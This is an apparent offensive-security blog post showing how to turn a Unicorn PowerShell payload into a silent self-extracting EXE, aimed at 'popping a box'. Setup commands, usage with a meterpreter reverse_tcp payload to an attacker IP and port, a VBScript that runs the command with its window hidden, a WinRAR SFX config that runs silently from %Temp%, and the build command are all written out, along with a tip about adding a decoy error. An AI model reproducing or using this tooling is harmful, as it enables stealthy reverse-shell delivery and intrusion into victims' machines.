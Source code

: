 ```yaml
---
layout: post
title: Making a Powershell EXE Payload
summary: A script to make a powershell payload into an executable
---
```


I've been using TrustedSec's [Unicorn](https://github.com/trustedsec/unicorn) a LOT over the past few months. In fact, it's become my go-to payload to pop a box. While it's awesome to be able to paste a command and get a shell, sometimes an EXE is required.

For those cases, I've made a script to make the whole process automated: `powershell_exe.py`



### tl;dr
`powershell_exe.py` uses winrar's commandline options under wine to make a self-extracting archive. [Source](https://github.com/bluscreenofjeff/Scripts/blob/master/powershell_exe.py)


**Setup instructions**

```bash
cd /opt
git clone https://github.com/trustedsec/unicorn.git

cd ~/Desktop
wget http://www.rarlab.com/rar/wrar511.exe
wine wrar511.exe
```

Now just go through the default options of winrar to finish the install.


**Usage:**

```python
python power_exe.py <payload> <ip address> <port>
Example: python power_exe.py windows/meterpreter/reverse_tcp 192.168.1.5 443
````


**Results**

The script outputs a `powerpay.exe` file and leaves Unicorn's `powershell_attack.txt` file. 

To have the script remove the Unicorn command, uncomment line 39: `system("rm powershell_attack.txt")`



### How it works

The script runs Unicorn using the provided options for payload, IP, and port. The result is the Powershell command text in `powershell_attack.txt`.


The code from `powershell_attack.txt` is inserted into the following vbscript file to call the command without that ugly black command prompt popping up:

```bash
Dim shell,command
command = "<POWERSHELLCOMMAND>"
Set shell = CreateObject("WScript.Shell")
shell.Run command,0
```


An `xfs.config` file is written for winrar:

```bash
;The comment below contains SFX script commands

Path=%Temp%
Setup=run.vbs
Silent=1
Overwrite=1
```

You can have multiple Setup lines in that file, so if you wanted to have the payload run and then create an error or run an intel script, you could just edit the config file, add the file creation to the script, and edit the wine command below.



Winrar's command line options are plentiful, but for our purposes the syntax is as follows:

```bash
wine /root/.wine/drive_c/Program\ Files/WinRAR/Rar.exe a -r -u -sfx -z'xfs.config' powerpay run.vbs
```

What the flags mean:

  * **a** : adds to the designated archive (powerpay in this case)
  * **-r** : recurses subfolders (if applicable)
  * **-u** : updates the archive with new files and adds the new files to the archive
  * **-sfx** : makes the archive an SFX (self-extracting) archive
  * **-z** : specifies the xfs.config file. Note there is no space between the flag and path to config file
  * **powerpay** : name of the archive. This will output as powerpay.exe
  * **run.vbs** : the file being added to the archive. You can add multiple files with spaces between the paths



That's it! It should probably be said that I am **not** a programmer, so the source is definitely not written the "right" way. 

